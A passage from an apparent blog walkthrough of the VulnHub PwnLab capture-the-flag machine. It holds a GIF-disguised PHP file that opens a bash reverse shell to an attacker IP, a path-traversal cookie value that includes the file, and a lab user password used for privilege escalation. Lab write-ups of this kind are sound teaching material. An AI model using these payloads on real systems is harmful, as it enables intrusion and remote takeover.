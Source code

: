 And it worked, **pwnlab** pinged us (`tcpdump` as proof):

{% highlight bash %}
$ tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:38:56.995815 IP pwnlab > kali: ICMP echo request, id 1222, seq 1, length 64
12:38:56.995833 IP kali > pwnlab: ICMP echo reply, id 1222, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
{% endhighlight %}

### Final payload

Our final file:

{% highlight php %}
GIF89;  
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'"); ?>
{% endhighlight %}

**lang** cookie is now equal to:

`../upload/dfbb431572245b404f7db316d70bfc70.gif`

First I thought it didn't worked, but after pressing _"Go back one page"_, I got a shell:

![reverse shell](/assets/img/vulnhub/linux/pwnlab/reverse-shell.png)

![nc](/assets/img/vulnhub/linux/pwnlab/nc.png)


## Privesc (`kane` to `mike`)

By using [MySQL credentials](#mysql-port-3306), I was able to log in as `kent` and `kane` but not as `mike`.

- **kent**:

{% highlight bash %}
www-data@pwnlab:/home$ su kent
su kent
Password: JWzXuBJJNy

kent@pwnlab:/home$
kent@pwnlab:/home$ cd kent
kent@pwnlab:~$ ls -la
total 20
drwxr-x--- 2 kent kent 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
{% endhighlight %}
